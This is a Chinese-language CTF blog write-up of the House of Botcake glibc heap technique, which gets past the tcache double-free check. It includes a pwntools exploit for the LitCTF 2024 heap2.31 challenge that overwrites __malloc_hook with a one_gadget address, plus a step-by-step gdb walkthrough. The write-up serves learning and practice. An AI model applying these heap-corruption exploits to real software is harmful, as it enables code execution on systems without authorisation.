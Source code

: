 ```yaml
---
title: House of Botcake
date: '2025-02-21 11:00:29'
updated: '2025-04-07 21:39:55'
---
```

随着<font style="color:rgb(26, 26, 26);">在 2.29/2.27 高版本之后，glibc 为了防止攻击者简单的 Tcache Double Free，引入了对 Tcache Key 的检查。</font>

<font style="background-color:#FBDE28;">当 free 掉一个堆块进入 tcache 时，假如堆块的 bk 位存放的 </font>`<font style="background-color:#FBDE28;">key == tcache_key </font>`<font style="background-color:#FBDE28;">， 就会</font>**<font style="background-color:#FBDE28;">遍历这个大小</font>**<font style="background-color:#FBDE28;">的 Tcache ，假如发现同地址的堆块，则触发 Double Free 报错。</font>

<font style="color:rgb(26, 26, 26);">从攻击者的角度来说，我们如果想继续利用 Tcache Double Free 的话，一般可以采取以下的方法：</font>

1. <font style="color:rgb(26, 26, 26);">破坏掉被 free 的堆块中的 key，绕过检查（常用）</font>
2. <font style="color:rgb(26, 26, 26);">改变被 free 的堆块的大小，遍历时进入另一 idx 的 entries</font>
3. <font style="color:rgb(26, 26, 26);">House of botcake（常用）</font>

<font style="color:rgb(26, 26, 26);">House of botcake 合理利用了 Tcache 和 Unsortedbin 的机制，同一堆块第一次 Free 进 Unsortedbin 避免了 key 的产生，第二次 Free 进入 Tcache，让高版本的 Tcache Double Free 再次成为可能。</font>

> <font style="color:rgb(26, 26, 26);">此外 House of botcake 在条件合适的情况下，极其容易完成多次任意分配堆块，是相当好用的手法。</font>
>

## <font style="color:rgb(26, 26, 26);">利用过程</font>
连续 malloc 9块大于 fastbin chunk 大小的堆块，然后释放7块填充 tcachebin

![](/images/5875378fed63dd6787593dba962794e9.png)

 然后释放chunk8、chunk9，会落入 unsortedbin 并进行合并

> 别忘了如果 chunk9 和 topchunk 相邻会被合并，得多申请一个 chunk 来隔开
>

![](/images/df1d27846d8d55e23e8bdaf7b7d56487.png)

这时候我们将一块 0x100 大小的 chunk 申请出来，然后再 free 掉 chunk9

![](/images/c63ffad0c2946364ab12ff5f39fd1b30.png)

 ok，现在你可能发现已经构成了double free 了，只要我们申请不是 0x100 大小的 chunk，就会从 unsortedbin 中进行切割。因此我们实际上是可以分一次或多次，将 chunk9 的一部分或全部申请出来。

合并后的 unsortedchunk：

![](/images/a18b4d386b14893b0d377a940b9552f4.png)

用空字节覆盖前面的部分到了 size 域再用 p64()把要填的数据填进去，size 要注意，然后就是把 fd 覆盖

---

看了上面的资料就很清楚了

## LitCTF 2024 heap2.31
> 题目可以直接用 UAF 搞定的
>

先看 exp：

```shell
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'
context.os = 'linux'
link=process("./heap2.31")
libc=ELF('./glibc/2.31-0ubuntu9_amd64/libc-2.31.so')

def gdb_attach():
	gdb.attach(link,"set solib-search-path /home/pwner/FocusingCTF/glibc/2.31-0ubuntu9_amd64/")
	pause()

def create(idx,size):
	...

def delete(idx):
	...

def show(idx):
	...

def edit(idx,content):
	...

ogg=[0xe6aee,0xe6af1,0xe6af4]

create(0,1280) #unsorted
for i in range(7):
	create(i+1,0x90) #申请够填满tcachebin的chunk
create(8,0x90) 
create(9,0x90) 
create(10,0x90) #防止topchunk合并

delete(0) #unsorted
show(0) #unsorted
malloc_hook=u64(link.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))-0x70
print(hex(malloc_hook))
libc_base=malloc_hook-libc.sym[b'__malloc_hook']
print(hex(libc_base))

for i in range(7):
	delete(i+1) #填满tcachebin
delete(9)
delete(8) #让8、9进unsortedbin被合并
create(11,0x90) #从tcache中取一个出来
delete(9)
# gdb_attach()
create(12,0x100)
payload=b'\0'*0x90+p64(0)+p64(0xa1)+p64(malloc_hook)
edit(12,payload)
create(13,0x90)
create(14,0x90) #malloc_hook
edit(14,p64(libc_base+ogg[1]))
# gdb_attach()
create(15,0x90)

link.interactive()
```

### 动调过程
在看完资料知道原理之后直接动调（因为堆题刚开始所有原理都是看资料来的，感觉还是动调看看实际的过程跟原理联系来看更方便记忆），有几个重点想调试看看的地方：

1. 先看了看 tcachebin 被填满之后接着 free 会到哪里：

```shell
create(0,1280) #unsorted
for i in range(7):
	create(i+1,0x90) #申请够填满tcachebin的chunk
create(8,0x90) 
create(9,0x90) 
create(10,0x90) #防止topchunk合并

...

for i in range(7):
	delete(i+1) #填满tcachebin
delete(9)
gdb_attach()
```

可以看到是到了 unsortedbin 里面

![](/images/e366dc5b5dd5c15b9d039e3c3cecd24d.png)



2. 又看了看 unsortedbin 里面两个连着的 chunk 是不是被合并了：

接着上面截图那里可以看到现在 unsortedbin 链表头是 chunk9（0x55fb5ald3ca0）

再把 chunk8 也释放到 unsortedbin 里面

```shell
delete(8)
```

在这一句后面看 gdb：

![](/images/4e3745809cada7c39d869a9dceaedf87.png)

可以看到被合并成一个 chunk 了，可是为什么地址更小了...（刚开始没反应过来合并了...）

原来是因为先释放的是 chunk9，地址更高，而后面才释放 chunk8，chunk8 的地址比较低，合并完之后的 chunk 的地址就是 chunk8 的地址

![](/images/a8e03f33e65329832c33dade3941f259.png)



3. 接下来是看关键的 doublefree 有没有成功把 chunk9 放到 tcachebin 里面：

```shell
create(11,0x90) #从tcache中取一个出来
delete(9)
gdb_attach()
```

![](/images/ad19e441d57ebb475e33f316ba17d643.png)

成功把这个 chunk9 放到 tcachebin 里面了



4. 然后是再申请一个比 chunk8 要大的内存，把合并后的 chunk 分割申请出来，能够覆盖到 chunk9 的 fd 改成 malloc_hook 的地址

```shell
create(12,0x100)
payload=b'\0'*0x90+p64(0)+p64(0xa1)+p64(malloc_hook)
edit(12,payload)
gdb_attach()
```

![](/images/dd0b3d605d8fc5c5a2d47e7fbc513609.png)

框住这里被覆盖成了malloc_hook 的地址，这个地址 0x55fb5ald3cb0 就是 chunk9 的地址

接下来的就很简单了，直接申请出 tcachebin 里面的 chunk9，再申请出来 malloc_hook 的内存

edit 成 one_gadget 就可以了

